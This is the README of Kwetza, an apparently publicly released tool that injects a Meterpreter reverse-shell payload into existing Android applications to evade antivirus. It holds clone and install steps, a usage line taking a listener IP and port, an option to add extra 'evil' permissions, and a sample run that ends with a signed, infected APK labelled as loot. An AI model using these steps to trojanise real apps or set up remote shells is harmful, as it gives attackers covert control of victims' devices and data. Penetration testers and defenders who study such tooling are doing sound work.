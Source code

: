 # Introduction
[![Arsenal](https://rawgit.com/toolswatch/badges/master/arsenal/2017.svg)](http://www.toolswatch.org/2017/06/the-black-hat-arsenal-usa-2017-phenomenal-line-up-announced/)

By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

# What does it do?

Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissions to gain additional functionality.

# Where can I get the blogpost?
The manual steps automated by Kwetza can be found here: https://sensepost.com/blog/2016/kwetza-infecting-android-applications/

# Getting the code

Firstly get the code:
```
git clone https://github.com/sensepost/kwetza.git
```

Kwetza is written in Python and requires BeautifulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

# Usage

python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass

* nameOfTheApkToInfect.apk = name of the APK you wish to infect.
* https/tcp = select either a HTTPS or TCP connection
* LHOST = IP of your listener.
* LPORT = Port of your listener.
* yes = include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.
* customClass = Specify a custom activity here if you want Kwetza to inject into this activity.

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# Information

Kwetza has been developed to work with Python 2.

Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk.

If you would like to sign the infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the reference in the kwetza.py.

The same can be done for payload templates.

The password for the default keystore is, well, "password".

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

Permissions beyond the scope of this license may be available at http://sensepost.com/contact
